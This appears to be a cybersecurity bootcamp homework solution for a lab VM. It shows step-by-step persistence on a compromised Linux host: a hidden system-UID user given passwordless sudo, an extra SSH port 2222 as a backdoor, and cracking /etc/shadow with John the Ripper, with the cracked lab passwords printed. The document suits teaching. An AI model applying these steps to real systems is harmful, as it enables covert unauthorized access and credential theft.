 ## Week 6 Homework Solution: Advanced Bash - Owning the System

### Lab Setup

1. Log into the VM as `root` on the attacker machine:

    - Within the attacker machine, log in with the credentials:

        - Username: `sysadmin`
        - Password: `cybersecurity`

2. Using the attacker machine, remote into the target machine:

    - `ssh sysadmin@192.168.6.105 -p 22` and enter `passw0rd` when prompted.

3. After logging in as `sysadmin` on the target machine, run `sudo -s` to escalate your user to `root`. Enter `passw0rd` when prompted.

You will not need the above steps as part of your submission file.

---
### Step 1: Shadow People
1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd sysd`

2. Give your secret user a password:
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 400 sysd`
 
4. Give your secret user the same GID:
    - `sudo groupmod -g 400 sysd`

5. Give your secret user full `sudo` access without the need for a password:
    - `sudo visudo`

    - Add the line: `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under the `root` entry:

    ```bash
    # User privilege specification
    root    ALL=(ALL:ALL) ALL
    sysd    ALL=(ALL:ALL) NOPASSWD:ALL
    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL
    ```

- Swap to your `sysd` user and enter the password you set.

    - `su sysd`

6. Test that `sudo` access works without your password:

    - `sudo -l` will show the following output:

    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    ```

### Step 2: Smooth Sailing

1. Edit the `sshd_config` file:

    - Run `sudo nano /etc/ssh/sshd_config` and add the following line in the configuration file:

    ```bash
    # Add an extra port line:
    Port 22
    Port 2222
    ``` 

### Step 3: Testing Your Configuration Update
1. Restart the SSH service:
    - `service ssh restart` or
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

### Step 4: Crack All the Passwords

1. SSH back to the system using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`

    - `john /etc/shadow`

 Wait approximately 5-10 minutes for John to crack all the passwords.

 - This partly depends on what password you set for your `sysd` user.

    ```bash
    # john /etc/shadow
    Created directory: /root/.john
    Loaded 7 password hashes with 7 different salts (crypt, generic crypt(3) [?/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    computer         (stallman)
    freedom          (babbage)
    trustno1         (mitnik)
    dragon           (lovelace)
    lakers           (turing)
    passw0rd         (sysadmin)
    Goodluck!        (student)
    ```
--- 
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
